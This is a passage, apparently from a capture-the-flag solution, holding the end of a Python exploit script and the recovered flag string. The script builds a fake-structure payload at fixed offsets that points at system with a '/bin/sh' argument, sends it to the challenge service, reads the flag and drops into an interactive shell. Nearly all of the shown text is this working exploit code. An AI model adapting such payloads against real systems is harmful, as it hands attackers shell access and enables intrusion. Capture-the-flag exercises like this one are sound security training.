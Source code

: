 ```py
    0: fake_chunk + 0x100,
    0x8: p64(0x100),
    0x24: b"\x01",
    0x58: p64(system),
    0x68: b"/bin/sh\x00"
}, filler = b'\x00')

s.send(pay)

s.sendline('cat /flag')
s.interactive()
```
apollob{a2c7a10f4ba7acbef1102c71515019080edd5a2b8e8cd01c80f6c323b4a91106455cc6b4768582c5a8acfe4662fb44ea80e4c8929b8eb0401c77351cfbdbd3029a4d2d6a}